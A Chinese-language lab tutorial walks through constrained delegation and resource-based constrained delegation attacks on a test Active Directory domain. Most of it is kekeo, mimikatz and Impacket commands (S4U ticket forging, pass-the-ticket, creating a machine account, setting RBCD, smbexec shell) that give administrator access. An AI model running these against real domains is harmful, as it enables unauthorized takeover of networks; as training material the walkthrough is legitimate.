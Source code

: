 # 约束性委派攻击和基于资源的约束性委派攻击

- 域控机器账户：WIN-0V0GAORDC17
- 域名：HACKER.com
- 攻击者普通用户：deandean

![image-20250102180815645](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20250102180815645.png)

### 约束性委派

- 提前在 deandean 用户上配置好 对 cifs/WIN-0V0GAORDC17.HACKER.com 服务的约束性委派。
- 使用约束性委派机制，以管理员权限访问 cifs/WIN-0V0GAORDC17.HACKER.com 服务。

1. 请求 deandean 普通用户的 tgt （在 kekeo 中运行）。

```
tgt::ask /user:deandean /domain:HACKER.com /password:p-0p-0p-0p-0

# kekeo 将 tgt 存放在当前文件夹下。
```

![image-20250102192842848](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20250102192842848.png)

2. 使用 tgt 请求 S4U2Self 票据。同时再使用 S4U2Self 票据请求 S4U2Proxy 票据。（在 kekeo 中运行）。

```
tgs::s4u /tgt:TGT_deandean@HACKER.COM_krbtgt~HACKER.com@HACKER.COM.kirbi /user:administrator@HACKER.com /service:cifs/WIN-0V0GAORDC17.HACKER.com

# kekeo 将 S4U2Self 票据（短的）和 S4U2Proxy 票据（长的）保存到当前文件夹。
```

![image-20250102193107944](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20250102193107944.png)

3. 使用 mimikatz 将 st 服务票据（S4U2Proxy 票据）导入会话 （在 mimikatz 中运行）。

```
kerberos::ptt TGS_administrator@HACKER.com@HACKER.COM_cifs~WIN-0V0GAORDC17.HACKER.com@HACKER.COM.kirbi
```

4. 以管理员权限获得访问域控服务的 shell 。

```
dir \\WIN-0V0GAORDC17.HACKER.com\c$
```

![image-20250102193208960](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20250102193208960.png)

如下图是 mimikatz 的票据列表，就是我们的 S4U2Proxy 票据。

![image-20250102193307223](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20250102193307223.png)

### 基于资源的约束性委派

- 这里演示的攻击域内机器 WIN10-01，使得我们有管理员权限访问 WIN10-01。
- WIN10-01 是 deandean 用户加入域的，所以有修改这个机器账户的 msDS-AllowedToActOnBehalfOfOtherIdentity 属性的权限，这是基于资源的约束性委派攻击的必要条件。
- 如果你要攻击域控，那么你需要有修改域控的 msDS-AllowedToActOnBehalfOfOtherIdentity 属性的权限，我们普通域用户没有修改此属性的权限。

1. 设置密码创建一个新的机器账户 win10-02$ 。

```
# 密码为 p-0p-0p-0p-0
addcomputer.py -computer-name win10-02$ -computer-pass p-0p-0p-0p-0 -dc-ip 192.168.72.163 HACKER.com/deandean:p-0p-0p-0p-0
```

![image-20250102212453909](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20250102212453909.png)

2. 在 WIN10-01 上配置 win10-02 的基于资源的约束性委派（基于资源的约束性委派配置在下游机器账户上， WIN10-01 属于下游机器， win10-02 属于上游机器）。

```
rbcd.py -f win10-02 -t WIN10-01 -dc-ip 192.168.72.163 HACKER\\deandean:p-0p-0p-0p-0
```

![image-20250102210101653](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20250102210101653.png)

如下图可以看到 WIN10-01 上配置的基于资源的约束性委派。

![image-20250102212908675](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20250102212908675.png)

3. 使用 win10-02 身份代表 administrator 身份获取访问 WIN10-01 的服务票据。

```
getST.py -spn cifs/WIN10-01.HACKER.com -impersonate administrator -dc-ip 192.168.72.163 HACKER.com/win10-02$:p-0p-0p-0p-0
```

![image-20250102212545365](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20250102212545365.png)

4. 使用此服务票据访问 WIN10-01 （windows 上攻击会显示 “ [-] module 'readline' has no attribute 'backend' ” 报错，但在 linux 上不会出现此报错）。

```
export KRB5CCNAME=/tmp/administrator@cifs_WIN10-01.HACKER.com@HACKER.COM.ccache

python smbexec.py -no-pass -k WIN10-01.HACKER.com
```

![image-20250102211609897](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20250102211609897.png)